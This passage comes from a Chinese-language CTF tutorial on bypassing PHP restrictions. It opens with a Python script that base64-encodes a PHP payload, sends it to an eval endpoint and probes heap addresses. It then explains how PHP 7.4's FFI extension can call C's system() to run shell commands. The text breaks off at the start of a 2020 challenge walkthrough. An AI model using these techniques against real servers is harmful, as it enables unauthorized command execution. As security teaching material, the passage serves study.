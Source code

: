 ```python


payload = open("xxx.php").read()
payload = base64.b64encode("?>" + payload)
url = "http://x.x.x.x:x/eval.php"
print "[+]Execute Payload, Output is:"
content = requests.post(url, data={
    "c": "eval(base64_decode('" + payload + "'));",
}).content
if "[!]Please try to get address of PHP Chunk" in content:
    addr1 = bomb1(url)
    if addr1 is None:
        exit(1)
    print "---------------------------------------------------------------------------------"
    addr2 = bomb2(url, int(addr1, 16))
    if addr2 is None:
        exit(1)
    print "---------------------------------------------------------------------------------"
    print addr2
else:
    print content
print "[+]Execute Payload Over."
```

# 0x11 利用FFI扩展执行命令

## 使用条件

1. Linux系统
2. PHP>=7.4
3. 开启了FFI扩展且ffi.enable=true

## 原理简述

 PHP7.4的FFI(Foreign Function Interface)，即外部函数接口，允许从用户在PHP代码中去调用C代码。

 分为声明和调用两步，首先使用FFI::cdef()函数在PHP中声明一个我们要调用的这个C库中的函数以及使用到的数据类型，类似如下：

    $ffi = FFI::cdef("int system(char* command);");#声明C语言中的system函数

这将返回一个新创建的FFI对象，然后使用以下方法即可调用这个对象中所声明的函数：

    $ffi->system("ls / > /tmp/res.txt");#执行ls /命令并将结果写入/tmp/res.txt

 由于system函数执行命令无回显，所以需要把结果写入到有权限的目录中，最后再使用

echo file_get_contents(“/tmp/res.txt”);查看执行结果

## 题目复现**[极客大挑战 2020]FighterFightsInvincibly**

查看源码，发现
